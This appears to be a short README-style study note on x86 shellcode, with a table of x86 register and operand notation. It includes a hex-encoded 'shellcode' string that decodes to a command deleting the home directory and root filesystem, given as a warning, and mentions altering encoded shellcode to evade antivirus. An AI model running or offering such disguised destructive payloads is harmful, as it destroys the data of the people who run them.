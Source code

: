 # This is Advanced Darkness

This is about x86 (mostly in the context of IA32 proccessors). Opcode fall under such a strange category for me, you code in C and then convert it to x86. You use small registers trying to avoid bad chars but it might be easier to just use msfencode, then again with that you're borrowing someone elses code for these environments.You must modify it too not be detected by AV and even then, it can still be deteced.

A modern computer makes no real distinction between instructions and data. If a processor can be fed instructions when it should be seeing data, it will happily go about executing the passed instructions. This characteristic makes system exploitation possible. Before getting started I highly reccomend reading this http://insecure.org/stf/smashstack.htmlhttp://insecure.org/stf/smashstack.html

Finally, as is the case with other documents here, resources and references are placed at the bottom

Memory_Management

Registers

Recognize_C_Code

The_Stack

## Quickguide


### How not to lose your pc to shell code
~~~
"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20".
"\x2F\x2A\x20\x32\x3e\x20\x2f\x64\x65".
"\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
~~~
Write this to binary, then analyze like so
~~~
C:\shellcode>type c:\tmp\shellcode.bin
rm -rf ~ /* 2> /dev/null &
~~~

### Basics

\<reg32>     	Any 32-bit register (EAX, EBX, ECX, EDX, ESI, EDI, ESP, or EBP)

\<reg16> 	    Any 16-bit register (AX, BX, CX, or DX)

\<reg8>      	Any 8-bit register (AH, BH, CH, DH, AL, BL, CL, or DL)

\<reg> 	        Any register
	
\<mem> 	A memory address (e.g., [eax], [var + 4], or dword ptr [eax+ebx])
\<con32> 	Any 32-bit constant
\<con16> 	Any 16-bit constant
\<con8> 	Any 8-bit constant
\<con> 	Any 8-, 16-, or 32-bit constant
